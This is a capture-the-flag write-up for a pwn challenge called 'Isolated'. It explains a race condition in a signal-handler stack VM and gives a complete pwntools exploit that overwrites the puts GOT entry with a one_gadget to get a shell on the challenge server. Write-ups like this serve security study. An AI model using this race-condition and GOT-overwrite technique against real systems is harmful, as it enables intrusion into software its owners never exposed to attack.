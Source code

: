 # Isolated

**Author**: pql

**Tags:** pwn

**Points:** 884 (19 solves)

**Description:** 

> Simple VM, But isloated.

We're provided a small executable that `fork()`s and sets up a server-client relation, where the parent process acts as server that receives instructions from the client. We can provided `0x300` bytes of custom instructions that will be ran on the simple stack architecture VM that the server and client define together. The client and server share a memory mapping (with `MAP_SHARED`) that they will use for communication of routine arguments and results. 

#### The architecture



The server defines a few signal handlers that respectively push, pop and clean the stack, and one that enables "logging mode". The logging mode makes all other signal handlers print some debug information before executing. The stack has defined bounds at `stack_ptr = 0` and `stack_ptr = 768`, after which `pop` and `push` respectively will fail. 

The client is tasked with decoding the provided instructions, and then sends a signal to the parent process to execute a signal handler. The signal handler then executes, and a variable in the shared memory is set to indicate the result. It should be noted that the following seccomp policy is applied to the child:

```
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x03 0xc000003e  if (A != ARCH_X86_64) goto 0005
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x15 0x00 0x01 0x0000003e  if (A != kill) goto 0005
 0004: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0005: 0x06 0x00 0x00 0x00000001  return KILL
```

This hints us towards that fact that we should be exploiting the parent process.

There's a few defined instructions:

```
<0> <xx xx xx xx> pushes xx xx xx xx
<1> pops (into the void)

The next instructions can take either a 4-byte immediate or a value popped from the stack. 
A pop is denoted by <0x55> and an immediate is denoted by <0x66> <xx xx xx xx>. We'll call this a <imm/pop>

<2> <imm/pop> <imm/pop> adds two operands and pushes the result
<3> <imm/pop> <imm/pop> subtracts two operands and pushes the result
<4> <imm/pop> <imm/pop> multiplies two operands and pushes the result
<5> <imm/pop> <imm/pop> divides two operands and pushes the result
<6> <imm/pop> <imm/pop> compares if the two operands are equal and sets a flag if this is the case.

<7> <imm/pop> jumps to the operand
<8> <imm/pop> jumps to the operand IF the flag is set (see 6)
<9> cleans the stack
<10> <imm/pop> sets log mode to the operand (any non-zero value is on)

Anything else will kill parent and child immediately.
```

#### The bug

All pops and pushes are *blocking* (they wait for the result), except the normal push and pop instructions <0> and <1>. Since these instructions don't wait for the result, they can cause a desynchronization of state. We can trigger a signal handler in the parent whilst another signal handler is already running, which is effectively a kind of concurrence on a single execution core. We can use the resulting race condition to circumvent the bound check for `pop` and `push` in the parent process.

The resulting exploit underflows the stack pointer to -1, at which point we can navigate the stack pointer to a GOT entry (I picked `puts`) and use the add instruction (`<2>`) to add a constant offset to a one shot gadget to its lower four bytes.

Winning the race was mostly a bunch of trial and error, I combined `pop` with `clean_stack`, so the stack pointer will be zeroed but the `pop` routine will still decrement it. On local docker, i was able to win the race about 25% of the time, but on remote it is less than 1%.

#### The exploit

```python 
from pwn import *
from pwnlib.util.proc import descendants
context.terminal = ["terminator", "-e"]

BINARY_NAME = "./isolated"
LIBC_NAME = "./libc.so"
REMOTE = ("3.38.234.54", 7777)
DOCKER_REMOTE = ("127.0.0.1", 7777)

context.binary = BINARY_NAME
binary = context.binary
libc = ELF(LIBC_NAME)

EXEC_STR = [binary.path]

PIE_ENABLED = binary.pie

BREAKPOINTS = [int(x, 16) for x in args.BREAK.split(',')] if args.BREAK else []

gdbscript_break = '\n'.join([f"{'pie ' if PIE_ENABLED else ''}break *{hex(x)}" for x in BREAKPOINTS])

gdbscript = \
        """
        set follow-fork-mode child
        """


def handle():
    
    env = {"LD_PRELOAD": libc.path}
    
    if args.REMOTE:
        return remote(*REMOTE)
    
    elif args.LOCAL:
        p = process(EXEC_STR, env=env)
    elif args.GDB:        
        p = gdb.debug(EXEC_STR, env=env, gdbscript=gdbscript_break + gdbscript)
    
    elif args.DOCKER:
        p = remote(*DOCKER_REMOTE)
    else:
        error("No argument supplied.\nUsage: python exploit.py (REMOTE|LOCAL) [GDB] [STRACE]") 
    
    if args.STRACE:
        subprocess.Popen([*context.terminal, f"strace -p {p.pid}; cat"])
        input("Waiting for enter...")
    
    return p

def main():
    l = handle()
    #print(l.pid)
    """
    <0> <xx xx xx xx> pushes xx xx xx xx
    <1> pops (into the void)

    The next instructions can take either a 4-byte immediate or a value popped from the stack. 
    A pop is denoted by <0x55> and an immediate is denoted by <0x66> <xx xx xx xx>. We'll call this a <imm/pop>

    <2> <imm/pop> <imm/pop> adds two operands and pushes the result
    <3> <imm/pop> <imm/pop> subtracts two operands and pushes the result
    <4> <imm/pop> <imm/pop> multiplies two operands and pushes the result
    <5> <imm/pop> <imm/pop> divides two operands and pushes the result
    <6> <imm/pop> <imm/pop> compares if the two operands are equal and sets a flag if this is the case.

    <7> <imm/pop> jumps to the operand
    <8> <imm/pop> jumps to the operand IF the flag is set (see 6)
    <9> cleans the stack
    <10> <imm/pop> sets log mode to the operand (any non-zero value is on)

    anything else kills the parent immediately
    """

    ONE_GADGETS = [
        0x4f432,
        0x10a41c
    ]

    rel_og_offsets = [og - libc.symbols['puts'] for og in ONE_GADGETS];
    print(rel_og_offsets)

    dbg  = lambda x: [10, 0x66, *p32(x)]
    pop  = lambda: [1]
    cmp_pop_blocking = lambda y: [6, 0x55, 0x66, *p32(y)] # compares if popped value equal to 0 and sets flag
    push_blocking = lambda x: [2, 0x66, *p32(x), 0x66, *p32(0)] # adds
    jmp = lambda x: [7, 0x66, *p32(x)]
    clean_stack = lambda: [9]
    cmp_imm_imm = lambda: [6, 0x66, *p32(0x41414141), 0x66, *p32(0x41414142)]
    add_constant = lambda x: [2, 0x66, *p32(x & 0xffffffff), 0x55]

    payload = [*dbg(0x01)] # 6
    
    start = len(payload)

    offset = (0x203100 - binary.got['puts']) // 4
    print(offset)

    payload.extend([
        *push_blocking(1),
        *[*cmp_imm_imm() * 10],
        *pop(), *pop(),
        *clean_stack(),
        *[*cmp_imm_imm() * 10],
        *cmp_pop_blocking(0xffffffff),
        *dbg(1),
        *[*cmp_imm_imm() * 5],
        *[*push_blocking(-offset & 0xffffffff) * 2],
        *add_constant(rel_og_offsets[0]),
        *dbg(1), # get shell!
    ])


    payload.extend(jmp(len(payload)))
    
    print(len(payload))
    payload = bytes(payload)
    #print(hexdump(payload))
    l.recvuntil(b"opcodes >")

    l.send(payload)

    print(f"puts @ {hex(libc.symbols['puts'])}")
     
    time.sleep(3)
    l.sendline("cat flag")
    
    assert b"timeout" not in l.stream()

if __name__ == "__main__":
    main()
```
